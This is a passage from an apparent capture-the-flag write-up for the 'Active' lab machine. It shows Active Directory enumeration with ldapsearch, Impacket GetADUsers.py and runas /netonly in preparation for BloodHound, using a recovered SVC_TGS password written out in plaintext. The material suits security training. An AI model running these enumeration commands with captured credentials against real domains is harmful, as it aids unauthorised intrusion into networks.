 ```bash
 Public DR 0 Tue Jul 14 12:57:55 2009
 SVC_TGS D 0 Sat Jul 21 23:16:32 2018
 10459647 blocks of size 4096. 4925485 blocks available
smb: \>
```

We can see from the home directories that there are likely at least 2 users: SVC\_TGS and Administrator. We can enumerate the AD users using ldapsearch:

```bash
┌─[rin@parrot]─[~/boxes/Active]
└──╼ $ldapsearch -h active.htb -x -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' \
-b "dc=active,dc=htb" "(&(objectClass=user)(!(objectClass=computer)))" \
samaccountname | grep -i samaccountname
# requesting: samaccountname
sAMAccountName: Administrator
sAMAccountName: Guest
sAMAccountName: krbtgt
sAMAccountName: SVC_TGS
and GetADUsers.py
┌─[rin@parrot]─[~/boxes/Active]
└──╼ $GetADUsers.py active.htb/svc_tgs:GPPstillStandingStrong2k18 -all
Impacket  - Copyright 2020 SecureAuth Corporation
[*] Querying active.htb for information about domain.
Name Email PasswordLastSet LastLogon
-------------------- ---------------- ------------------- -------------
Administrator 2018-07-19 03:06:40.351723 2018-07-31 01:17:40.656520
Guest <never> <never>
krbtgt 2018-07-19 02:50:36.972031 <never>
SVC_TGS 2018-07-19 04:14:38.402764 2018-07-21 22:01:30.320277
```

Both of these approaches show that we have the three manin users we are interested in SVC\_TGS, Administrator and krbtgt, the Kerberos user. We can again explore AD using BloodHound. This time, we will do it from Windows. The instructions for installation on Windows are on the BloodHound documents site \(https://bloodhound.readthedocs.io/en/latest/installation/windows.html\). To collect the data, we will use SharpHound.exe and we can run that from a command prompt that has authenticated with the domain. We can add active.htb as a hosts entry in the hosts file at c:\Windows\System32\drivers\etc\hosts.

From a command prompt, run a cmd.exe using the command:

```bash
C:\> runas /netonly /user:active.htb\svc_tgs cmd.exe
```

Enter the password for the user when prompted. This will open a separate window with the title saying that cmd,exe \(running as active.htb\svc\_tgs\). You can verify that this is running correctly by listing the Users directory. If all has worke correctly, you will not be prompted for a username or password:

```bash
c:\Users\rin\boxes\Active>dir \\10.129.81.55\Users
 Volume in drive \\10.129.81.55\Users has no label.
 Volume Serial Number is 2AF3-72E4
 Directory of \\10.129.81.55\Users
07/21/2018 10:39 PM <DIR> .
07/21/2018 10:39 PM <DIR> ..
07/16/2018 06:14 PM <DIR> Administrator
07/14/2009 12:57 PM <DIR> Public
07/21/2018 11:16 PM <DIR> SVC_TGS
 0 File(s) 0 bytes
 5 Dir(s) 20,165,267,456 bytes free
```
